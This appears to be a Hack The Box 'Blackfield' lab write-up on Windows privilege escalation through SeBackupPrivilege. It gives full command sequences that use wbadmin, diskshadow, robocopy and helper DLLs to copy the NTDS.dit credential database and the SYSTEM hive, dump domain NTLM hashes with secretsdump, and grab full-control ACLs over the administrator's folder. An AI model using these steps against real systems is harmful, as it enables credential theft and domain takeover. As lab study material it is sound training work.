 
# Elevating Privilege svc_backup -> Administrator

## Enumeration
Looking at the privileges of our user we find **SeBackupPrivilege** & **SeRestoreePrivilege** which are very powerful privileges that allows the user to access directories/files that he doesn’t own or doesn’t have permission to.
> This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.

```console
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
```
The user **svc_backup** is a member of **Backup Operators Groups** and hence has the **Backup privileges** which allows him to backup and restore files on the system, read and write files on the system.

```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
### Attack Scenario
- Grab a copy of **NTDS.dit** file, a database that stores Active Directory users credentials.
- Next, we will grab **SYSTEM hive** file which contains System boot key essential to decrypt the NTDS.dit
- Using Impacket’s secretsdump script to extract NTLM hashes of all the users in the domain from NTDS.dit

## PrivEsc Method #1 - wbadmin

For the first method, we will use **wbadmin** a Windows command line tool which enables us back up and restore operating system, volumes, files, folders, and applications.

It is not recommended to Backup and Restore the file in the same disk, so first we will first create a shadow copy of disk and backup the **ntds.dit** from the **c:\windows\ntds\ntds.dit** and store it inside SMB share **C$**

We could also achieve this by hosting our own SMB share from our machine but I preferred using SMB share **C$** of the host itself, since we don’t have an interactive session we’ll be using **-quiet** flag which wont ask us for user input to start the backup operation.

### NTDS.dit
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd \\10.10.10.192\C$\Windows\Temp
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp> mkdir CFX
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp\CFX> wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:c:\Windows\ntds\ntds
.dit -quiet
```
Now that we have obtained **WindowsImageBackup** of **NTDS.dit** file inside the SMB share, we’ll recovery the file inside our directory **C:\Users\svc_backup\Documents**

For recovering the backup we need the backup version:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin get versions
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Backup time: 10/5/2020 3:27 PM
Backup location: Network Share labeled \\10.10.10.192\C$\Windows\Temp\CFX\
Version identifier: 10/05/2020-22:27
Can recover: Volume(s), File(s)

*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin start recovery -version:10/05/2020-22:27 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\Users\svc_backup\Documents -notrestoreacl -quiet

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         10/5/2020  3:27 PM       18874368 ntds.dit
```
### SYSTEM hive
To extract the NTLM hashes from ntds.dit file, we’ll be needing SYSTEM hive file which contains the System boot key essential to decrypt the NTDS.dit.

Grabbing **SYSTEM**:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\SYSTEM
```
### Extracting NTLM hashes
We got both the files required to extract NTLM hashes of Domain accounts using Impacket’s secretsdump.py:
```console
┌─[✗]─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

## PrivEsc Method #2 - diskshadow
In second method, the strategy would be the same to grab **NTDS.dit**, but instead we’ll use a different windows tool named **diskshadow**.

> Diskshadow.exe is a tool that exposes the functionality offered by the volume shadow copy Service (VSS). This is a built-in function of Windows that can help us create a copy of a drive that is currently in use. 

First, we will be creating a **Distributed Shell File** or a **dsh** file which will consist of all the commands that are required by the diskshadow to run and create a full copy of our Windows Drive which we then can use to extract the **ntds.dit** file from. In this file, we are instructing the **diskshadow** to create a copy of the **C:** Drive into a **w:** Drive with **mydrive** as its alias. The Drive Alias and Character can be anything you want. After creating this dsh file, we need to use the **unix2dos** to convert the encoding and spacing of the dsh file to the one that is compatible with the Windows Machine.
```console
set context persistent nowriters
add volume c: alias mydrive
create
expose %mydrive% w:
```
In local machine:
```console
┌─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $unix2dos shadow.dsh
```
 *Usually upload to folder C:\Windows\Temp*
 
Then execute the diskshadow and using the script file as its inputs.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s shadowscript.dsh
```

Now, to perform the task of copying the data of the NTDS.dit file, there are two ways to do it:
- robocopy
- Copy-FileSeBackupPrivilege

### robocopy

I’ll now copy the file using **robocopy** with **/B** flag to ignore file permissions and use a new directory new_ntds to save the file:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> robocopy /B w:\Windows\ntds .\new_ntds ntds.dit
```
### Copy-FileSeBackupPrivilege
An alternate way to copy files from the shadow drive **w:\** is by uploading **SeBackupPrivilegeUtils.dll** and **SeBackupPrivilegeCmdLets.dll** from [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug) repo and importing them to our session.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeUtils.dll
```
Importing dll’s:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
Now we can use **Copy-FileSeBackupPrivilege** to copy files from our Shadow drive to the desired directory:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege w:\Windows\NTDS\ntds.dit C:\Users\svc_backup\Documents\ntds.dit
```
> NOTE: In the case of a DC, the privilege only allows you to make **BACKUPS NOT COPIES**. In a standalone system, we can make copies of the files (SAM and SYSTEM hive). In the case of DC, the method differs as now we need to make backups of the **NTDS.dit** and **SYSTEM** files to extract the password hash of users.
## Additional
There is another way that still involves the **SeBackupPrivilege** and **SeRestorePrivilege**. It’s to modify **ACL** and grant myself *full access* to the file/folder I specified using [this PowerShell script](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1). In the following, I use that script to own the entire admin’s desktop folder.
```console
*Evil-WinRM* PS C:\Users\svc-printer\chrp>Import-Module .\Acl-FullControl.ps1
*Evil-WinRM* PS C:\Users\svc-printer\chrp>Acl-FullControl -user return\svc-printer -path c:\users\administrator\desktop
```
